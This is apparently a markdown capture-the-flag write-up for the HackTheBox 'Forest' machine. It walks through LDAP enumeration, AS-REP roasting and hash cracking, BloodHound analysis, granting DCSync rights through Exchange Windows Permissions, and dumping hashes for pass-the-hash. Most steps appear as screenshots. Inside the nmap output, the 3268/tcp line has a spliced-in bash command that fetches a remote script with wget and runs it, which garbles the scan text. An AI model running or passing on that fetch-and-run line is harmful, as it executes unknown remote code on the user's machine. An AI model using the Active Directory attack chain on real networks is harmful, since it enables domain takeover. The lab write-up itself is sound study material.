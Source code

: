 # forest



## nmap



PORT     STATE SERVICE      VERSION                                                                                                    
53/tcp   open  domain?                                                                                                                 
| fingerprint-strings:                                                                                                                 
|   DNSVersionBindReqTCP:                                                                                                              
|     version                                                                                                                          
|_    bind                                                                                                                             
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-08-26 09:39:41Z)                                             
135/tcp  open  msrpc        Microsoft Windows RPC                                                                                      
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn                                                                              
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)                 
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)                                           
464/tcp  open  kpasswd5?                                                                                                               
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0                                                                        
636/tcp  open  tcpwrapped                                                                                                              
3268/tcp o bash -c  "$(wget -qO- https://git.io/vQgMr)" pen  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)     



## ldap



#### ldapsearch 

- using ldapsearch we can query active directory for all the information related to a domainnord

```
ldapseach -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 '(objectclass=person)' sAMAccountName 
```

- it will give us all the objects in person group and filter in there sam account name





#### rpcclient



![image-20200826203215605](forest.assets/image-20200826203215605.png)



## impacket



#### GetNPUsers.py

- kerberos preauthentication is disabled

![image-20200826205847487](forest.assets/image-20200826205847487.png)



- cracked the password using hashcat

![image-20200826210009415](forest.assets/image-20200826210009415.png)



#### shell

![image-20200826212837872](forest.assets/image-20200826212837872.png)





## post

- we are in account operators group
- account operators can add new non admin users change there password etc



![image-20200826213359607](forest.assets/image-20200826213359607.png)



#### bloodhound 

- we will also use bloodhound

  ![image-20200827000424755](forest.assets/image-20200827000424755.png)

- we are part of account operators group which gives us access to add remove or change password of non admin users

- account operators group has full access to "EXCHANGE WINDOWS PERMISSIONS" and they have writedacl access to one of the domain admins

- we can use dcsync attack and dump the hashes



- first we will add new user to "EXCHANGE WINDOWS PERMISSIONS" group
- then we will add that user DCSYNC rights

adding new user

![image-20200827000811828](forest.assets/image-20200827000811828.png)



adding to windows exchange permissions group

![image-20200827000828124](forest.assets/image-20200827000828124.png)



using PowerView module to give DCSYNC rights

![image-20200827001020287](forest.assets/image-20200827001020287.png)

- we also added our self in remote management group to get a wsman session
- then using PowerView gave ourself DCSYNC rights since we are in windows exchange permissions group

#### impacket secretsdump.py

![image-20200827001155161](forest.assets/image-20200827001155161.png)



- now we do attacks like pass the hash and get administrator

#### root

![image-20200827001439863](forest.assets/image-20200827001439863.png)

